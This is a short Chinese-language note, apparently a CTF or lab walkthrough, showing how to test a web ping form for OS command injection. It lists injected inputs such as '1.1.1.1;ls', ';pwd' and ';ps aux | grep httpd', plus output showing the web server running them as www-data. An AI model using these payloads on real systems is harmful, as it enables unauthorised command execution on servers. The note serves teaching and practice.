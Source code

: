 ### 觀察
可以先隨便試看看，試著猜想它可能是用麼條件結尾或斷行

```
1.1.1.1 && ls
```
```
1.1.1.1&&ls
```

### 漸進式的測試
猜到 `;`，可以試試看有沒有更簡短或省時間的方式

```
1.1.1.1;ls
```

```
;pwd
```

```
;ps aux | grep httpd
```
```
www-data   645  0.0  0.0   4296   752 ?        S    05:44   0:00 sh -c ping  -c 4 ;ps aux | grep httpd
www-data   648  0.0  0.0  11120   992 ?        S    05:44   0:00 grep httpd
```

web service user is www-data
